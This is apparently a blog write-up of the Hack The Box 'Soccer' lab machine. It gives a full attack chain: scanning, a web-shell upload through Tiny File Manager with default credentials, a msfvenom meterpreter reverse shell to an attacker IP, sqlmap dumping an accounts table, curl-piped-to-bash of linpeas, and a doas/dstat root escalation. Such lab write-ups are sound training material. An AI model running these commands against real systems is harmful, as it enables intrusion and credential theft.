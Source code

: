```yaml
---
layout: post
title: "Soccer"
date: 2025-04-20 
categories: CTPS Playlist
---
```

# Attack Path

First enumerate all the ports with rustcan and nmap:

```bash
rustscan -a 10.129.126.18

nmap -sC -sV -p22,80,9091 10.129.126.185 -oA nmap/soccer

result:
port 80 nginx 1.18.0
port 22
port 9091 xmltec-xmlmail
```

Add domain soccer.htb to /etc/hosts

Let’s enumerate subdomains and subdirectories

```bash
ffuf -u http://soccer.htb -H "Host: FUZZ.soccer.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -fw 6

gobuster dir -u http://soccer.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```

![image.png]({{ site.baseurl }}/assets/soccer/image.png)

In burp we look at the GET response from the server we find the version of the tiny explorer. Now let’s research some exploit. We find RCE  exploit: https://github.com/febinrev/tinyfilemanager-2.4.3-exploit

Let’s first try to login with default credentials. We search on Google default tiny manager credentials and result in admin:admin@123. We are in

We clone the exploit to our host and exploit the target:

```bash
./exploit.sh http://soccer.htb/tiny/tinyfilemanager.php admin \"admin@123\"
python3 tiny_file_manager_exploit.py http://soccer.htb/tiny/tinyfilemanager.php admin \"admin@123\"
```

The exploit doesn’t seem to be working. Let’s just do it manually. Click upload and upload phpbash.php.

```bash
Navigating to the uploads folder ([http://soccer.htb/tiny/tinyfilemanager.php?p=tiny%2Fuploads&upload](http://soccer.htb/tiny/tinyfilemanager.php?p=tiny%2Fuploads&upload)), we add phpbash.php. We visit http://soccer.htb/tiny/uploads/phpbash.php
```

We have access to user www-data

Let’s upload a reverse shell for stable connection:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.118 LPORT=443 -f raw > shell.php

#edit the file so the file start with <?php and end with ?>
```

```bash
#start metasploit for listener
msfconsole
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 10.10.14.118
set LPORT 443
run

#When we get the shell:
shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Let’s start trying to find credentials in config files etc

```bash
find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null
```

We know the server uses nginx for the web server, let’s check that

```bash
In the /etc/nginx/sites-available folder we find another site:

$ ls -al
ls -al
total 16
drwxr-xr-x 2 root root 4096 Dec  1  2022 .
drwxr-xr-x 8 root root 4096 Nov 17  2022 ..
-rw-r--r-- 1 root root  442 Dec  1  2022 default
-rw-r--r-- 1 root root  332 Nov 17  2022 soc-player.htb

#and catting it out:
soc-player.soccer.htb
```

Let’s add that to /etc/hosts

Let’s enumerate that

```bash
gobuster dir -u http://soc-player.soccer.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```

There is a ticket searching function in /check let’s try to SQL inject it.

Using burp to capture the traffic when inputting a ticket number and pressing enter, the website communicates with a web socket at ws://soc-player.soccer.htb:9091. Let’s use sqlmap to test different injection techniques

```bash
sqlmap -u 'ws://soc-player.soccer.htb:9091' --data '{"id":"*"}' --batch --risk 3 --level 5    #asterisks tells sqlmap where to inject, risk 3 and level 5 the highest

sqlmap -u 'ws://soc-player.soccer.htb:9091' --data '{"id":"*"}' --batch --risk 3 --level 5 --dbs

```

![image.png]({{ site.baseurl }}/assets/soccer/image%201.png)

```bash
sqlmap -u 'ws://soc-player.soccer.htb:9091' --data '{"id":"*"}' --batch --risk 3 --level 5 -D soccer_db --tables

sqlmap -u 'ws://soc-player.soccer.htb:9091' --data '{"id":"*"}' --batch --risk 3 --level 5 -D soccer_db -T accounts --columns

sqlmap -u 'ws://soc-player.soccer.htb:9091' --data '{"id":"*"}' --batch --risk 3 --level 5 -D soccer_db -T accounts -C email,id,password,username --dump
```

We have found a user credential

Let’s login as user player. Not much is on the website, let’s try to ssh. We are in.

## Linepeas

- in the dir where [linpeas.sh](http://linpeas.sh) is, start a python server

```bash
python3 -m http.server 1234
```

- then on the target server connect to it and pipe it to bash

```bash
curl 10.10.14.118:1234/linpeas.sh | bash
```

- Alwasy check /usr/local, or /usr/local/bin. This is where admin put binaries specifically
- also check special permssions other than sudo

```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

- Now try and find config for that binary

```bash
find / 2>/dev/null | grep doas

result:
/usr/local/etc/doas.conf

cat /usr/local/etc/doas.conf

result:
permit nopass player as root cmd /usr/bin/dstat
```

Now we go to GTFObin and dstat to see how we can escalate our privilege to root

```bash
echo 'import os; os.execv("/bin/sh", ["sh"])' > /usr/local/share/dstat/dstat_xxx.py

doas /usr/bin/dstat --xxx  #now we have root shell
whoami

af395ba322ed65992418eb6f9fb587a6
```